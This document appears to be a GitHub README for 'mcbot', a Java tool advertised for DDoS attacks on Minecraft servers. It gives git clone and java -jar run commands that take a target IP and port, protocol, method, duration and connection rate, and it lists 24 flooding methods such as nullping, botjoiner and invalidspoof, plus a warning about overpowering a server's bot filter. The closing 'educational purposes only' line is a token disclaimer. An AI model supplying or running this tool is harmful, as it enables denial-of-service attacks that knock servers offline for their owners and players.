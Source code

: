 ## akash
<p align="center"><img src="./icon/test.ico" width="150px" height="150px" alt="mcbot"></p>
<h1 align="center"> <img src="https://cdn0.iconfinder.com/data/icons/database-storage-5/60/server__database__fire__burn__safety-512.png" width="45" height="45" alt="post">DDoS attack minecraft servers with 24 Method</h1>
<h1 align="center">⚠WARNING: to kill botfilter you need a very powerful Dedicated Server or VDS</h1>


## install
```�install:
git clone https://github.com/akashsardarop/mcbot.git
cd mcbot
java -jar MCBOT.jar <IP:PORT> <PROTOCOL> <METHOD> <SECONDS> <CPS>
```

## Methods
```💣 Methods:
bigpacket
botjoiner
doublejoin
emptypacket
gayspam
handshake
invaliddata
invalidspoof
invalidnames
spoof
join
legacyping
legitnamejoin
localhost
pingjoin
longhost
longnames
nullping
ping
query
randompacket
bighandshake
unexpectedpacket
memory
test
```
## WARNING
* Use this script for educational purposes only or to test your server!
